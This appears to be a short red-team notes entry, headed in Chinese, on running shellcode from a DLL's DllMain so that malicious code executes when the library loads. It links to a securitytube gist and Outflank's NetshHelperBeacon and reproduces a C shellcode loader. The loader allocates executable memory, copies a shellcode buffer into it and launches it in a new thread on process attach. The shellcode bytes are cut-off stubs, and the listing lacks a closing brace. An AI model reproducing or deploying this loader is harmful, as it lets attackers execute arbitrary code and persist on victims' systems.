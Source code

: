 

- ### 在DllMain中执行ShellCode，从而LoadLibrary时即可执行恶意代码

https://gist.github.com/securitytube/c956348435cc90b8e1f7

https://github.com/outflanknl/NetshHelperBeacon/blob/master/NetshHelperBeacon/NetshHelperBeacon.cpp

```
#include <stdio.h>
#include <windows.h> // only required if you want to pop calc

#ifdef _M_X64
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41";
#else
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b";
#endif

// Start a seperate thread so netsh remains usefull. Loosely copied from https://gist.github.com/securitytube/c956348435cc90b8e1f7 
DWORD WINAPI ThreadFunction(LPVOID lpParameter)
{
	LPVOID newMemory;
	HANDLE currentProcess;
	SIZE_T bytesWritten;
	BOOL didWeCopy = FALSE;
	// Get the current process handle 
	currentProcess = GetCurrentProcess();
	// Allocate memory with Read+Write+Execute permissions 
	newMemory = VirtualAllocEx(currentProcess, NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (newMemory == NULL)
		return -1;
	// Copy the shellcode into the memory we just created 
	didWeCopy = WriteProcessMemory(currentProcess, newMemory, (LPCVOID)&buf, sizeof(buf), &bytesWritten);
	if (!didWeCopy)
		return -2;
	// Yay! Let's run our shellcode! 
	((void(*)())newMemory)();
	return 1;
}


BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
    HANDLE threadHandle;
    switch (dwReason)
    {
        case DLL_PROCESS_ATTACH:
			// Create a thread and close the handle as we do not want to use it to wait for it 
     	    threadHandle = CreateThread(NULL, 0, ThreadFunction, NULL, 0, NULL);
	    	CloseHandle(threadHandle);
            break;
        case DLL_PROCESS_DETACH:
            // Code to run when the DLL is freed
            break;
        case DLL_THREAD_ATTACH:
            // Code to run when a thread is created during the DLL's lifetime
            break;
        case DLL_THREAD_DETACH:
            // Code to run when a thread ends normally.
            break;
    }
    return TRUE;
```